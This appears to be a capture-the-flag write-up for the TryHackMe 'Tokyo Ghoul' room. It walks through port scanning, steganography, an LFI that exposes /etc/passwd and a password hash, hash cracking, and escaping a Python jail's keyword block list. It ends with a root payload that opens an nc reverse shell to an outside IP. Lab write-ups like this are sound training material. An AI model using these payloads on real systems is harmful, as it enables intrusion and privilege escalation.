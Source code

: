 ```yaml
---

title: Tokyo Ghoul
published: true
category: CTF
system: web
walkthrough-type: thm
source: https://tryhackme.com/room/tokyoghoul666
Description: Help kaneki escape jason room 
tags: security, web, hash, lfi
---
```


<img src="/assets/tuzTqo4.gif">

# Where am I?

**Use nmap to scan all ports**

- `sudo nmap tokyo.thm -p-`

**How many ports are open?**

- `3`

**What is the OS used?**

- `sudo nmap tokyo.thm -p21,22,80 -sC -sV -sT -O`

# Planning to escape 

**Did you find the note that the others ghouls gave you? where did you find it ?**

- the website

**What is the key for Rize executable?**

- `strings need_to_talk`

**Use a tool to get the other note from Rize.**

- `steghide extract -sf rize_and_kaneki.jpg -p You_found_1t`

# What Rize is trying to say? 

**What the message mean did you understand it ? what it says?**

- `d1r3c70ry_center`

**Can you see the weakness in the dark ? no ? just search**

gobuster we can find a page to lfi in. sending to gobuster and url encoding lets us access /etc/passwd and the user kamishiro's hash

kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash

**What did you find something ? crack it**

john sucks use hashcat

**what is rize username ?**

kamishiro:password123

# Fight Jason

- `sudo -l` first command tried

jail.py 

```
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

Found a python jail escape here that explains on how to get root shell from a python jail https://anee.me/escaping-python-jails-849c65cf306e

can use the following code to send back a root shell.

- `__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.3.64 6676 >/tmp/f')`
